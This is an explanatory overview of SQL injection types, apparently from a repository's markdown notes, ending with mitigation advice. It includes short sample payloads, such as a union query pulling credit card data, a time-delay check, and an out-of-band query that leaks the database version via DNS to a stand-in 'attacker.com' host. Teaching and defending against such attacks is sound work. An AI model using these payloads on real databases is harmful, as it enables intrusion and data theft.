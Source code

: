 # SQL Injection

#### Overview of SQL Injection Types with Examples

SQL Injection is a prevalent vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. More dangerous, however, is the ability to modify or delete this data, and potentially issue commands to the operating system of the server if the SQL database is run with inappropriate privileges.

Here are the primary types of SQL injection and examples of how they can be carried out:

**1. In-Band SQLi (Error-Based SQLi and Union-Based SQLi)**

* **Error-Based SQLi**: This technique involves performing actions that cause the SQL database to throw an error, which is helpful for an attacker to understand the structure of the database.
  * Example: Entering a malformed SQL query that causes the database to throw a detailed error message, such as `SELECT * FROM users WHERE id = 'a'`.
* **Union-Based SQLi**: This type of attack leverages the UNION SQL operator to combine the results of two or more SELECT statements into a single result which is then returned as part of the HTTP response.
  * Example: `SELECT name, age FROM users UNION SELECT credit_card_number, expiration_date FROM credit_cards`.

**2. Blind/Inferential SQLi (Boolean-Based SQLi and Time-Based SQLi)**

* **Boolean-Based SQLi**: The attacker sends an SQL query to the database which forces the application to return a different result depending on whether the query returns a TRUE or FALSE result.
  * Example: Adjusting a statement to check a condition, such as `SELECT * FROM users WHERE username = 'admin' AND 1=1` (true) versus `1=2` (false).
* **Time-Based SQLi**: This attack involves modifying the database query so that its execution will take more time to complete, depending on a specified SQL statement’s condition.
  * Example: `IF (1=1) WAITFOR DELAY '00:00:05'` – if the condition is true, the response will be delayed by 5 seconds, indicating a successful SQL injection.

**3. Out-of-Band SQLi**

* This type of SQLi occurs when an attacker is unable to use the same channel to launch the attack and gather results. Out-of-Band techniques, which rely on the capacity of the server to make DNS or HTTP requests to transfer data to an attacker.
  * Example: Triggering a DNS lookup to a server controlled by an attacker with a query like: `SELECT load_file(concat('\\\\',(SELECT @@version),'.attacker.com\\abc'))`.

**4. Compounded SQLi (SQLi with XSS or SQLi with LFI)**

* Attackers might use SQLi to inject malicious JavaScript, leading to stored XSS, or exploit SQLi to include files from the system (LFI).
  * Example: Inserting a script tag into a database field that is later displayed in user browsers, or manipulating file paths stored in the database to execute or leak files from the server.

Each type of SQL injection has its nuances and requires specific conditions to be exploitable. Effective mitigation involves prepared statements, parameterized queries, and adequate error handling to prevent leakage of sensitive information through error messages. Regular updates and security reviews are also critical to protect against SQL injection attacks.
